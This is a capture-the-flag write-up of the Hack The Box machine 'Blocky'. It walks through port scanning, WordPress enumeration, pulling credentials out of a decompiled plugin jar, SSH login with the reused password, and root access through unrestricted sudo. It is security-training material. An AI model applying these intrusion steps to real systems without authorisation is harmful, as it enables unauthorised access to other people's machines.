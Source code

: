```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Blocky
- Description: Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector: Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators.
- Difficulty: Easy 

## Initial Access

Nmap:
```bash
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I quickly attempt to login to ftp with anonymous access:
```bash
HTB ftp blocky.htb
Connected to blocky.htb.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (blocky.htb:kali): anonymous
331 Password required for anonymous
Password: 
530 Login incorrect.
ftp: Login failed
```

Going to the ip on the webpage redirects to blocky.htb, so I add it to my /etc/hosts file.

A quick dirsearch confirms this is wordpress:
```bash
HTB  dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://blocky.htb 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/.dirsearch/reports/blocky.htb/_24-01-19_08-50-02.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-19_08-50-02.log

Target: http://blocky.htb/

[08:50:02] Starting: 
[08:50:03] 301 -    0B  - /index.php  ->  http://blocky.htb/
[08:50:05] 403 -  291B  - /icons/
[08:50:07] 301 -  307B  - /wiki  ->  http://blocky.htb/wiki/
[08:50:07] 200 -  380B  - /wiki/
[08:50:07] 301 -  313B  - /wp-content  ->  http://blocky.htb/wp-content/
[08:50:07] 200 -    0B  - /wp-content/
[08:50:09] 200 -    2KB - /wp-login.php
[08:50:09] 301 -  310B  - /plugins  ->  http://blocky.htb/plugins/
[08:50:09] 200 -  745B  - /plugins/
[08:50:10] 200 -   19KB - /license.txt
[08:50:11] 301 -  314B  - /wp-includes  ->  http://blocky.htb/wp-includes/
[08:50:11] 200 -   40KB - /wp-includes/
[08:50:14] 301 -  313B  - /javascript  ->  http://blocky.htb/javascript/
[08:50:14] 403 -  296B  - /javascript/
[08:50:19] 200 -    7KB - /readme.html
```

Then I will wpscan while these are running:
```bash
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

Nothing really stood out besides the username notch.

Visiting the wiki endpoint I se its under construction:
![[assets/images/Pasted image 20240119085156.png]]

I'll start a dirsearch in there, I'll also visit the plugins directory:

![[assets/images/Pasted image 20240119085536.png]]

I see some files that seem interesting let me download them and analyze them.

I start by unzipping the file then decompiling the class

![[assets/images/Pasted image 20240119085739.png]]

I see some credentials, let me see if they work on wordpress. 

![[assets/images/Pasted image 20240119085806.png]]

Nope, so now I will try to ssh in:

```bash
myfirstplugin ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$
```

Boom IA
## Privilege Escalation

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 

Sorry, try again.
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch#
```

Very simple privilege escalation

## Beyond Root

One real main issue, which is leaked credentials in jar file, if that is not needed then we should delete it from the webpage. I'll go ahead and delete the jar file. 